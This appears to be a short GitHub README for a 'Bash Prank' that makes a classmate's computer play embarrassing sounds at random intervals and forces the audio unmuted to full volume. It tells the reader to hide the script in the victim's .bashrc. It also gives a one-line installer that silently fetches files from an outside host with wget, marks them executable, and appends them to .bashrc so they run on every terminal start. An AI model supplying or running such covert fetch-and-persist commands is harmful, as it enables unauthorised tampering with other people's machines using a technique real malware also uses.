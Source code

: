 Bash Prank
-----------
Imagine you are in class.
Someone - we wont say who - opens up their terminal.
Then they close it.
Then after a random time interval - say anywhere from 1 to 300 seconds
a random sound plays.
Oh, it can be an embarrassing sound.
Did you say they had headphones on?
Didn't work very well for them now did it?
Did you say they tried muting it?
Ahh - you mean it unmuted and went to full volume a second later.




Run via
    ./al.sh & disown $!
Hide in their bashrc
    ./{PATH_TO_FILE}/al.sh & disown $!

Do everything via: mkdir
    ~/.config/al >/dev/null 2>&1; cd ~/.config/al; wget -r -nc -nd http://prank.hostei.com/ >/dev/null 2>&1 && chmod +x al.sh && echo ". ~/config/al/al.sh & disown $!" >> ~/.bashrc

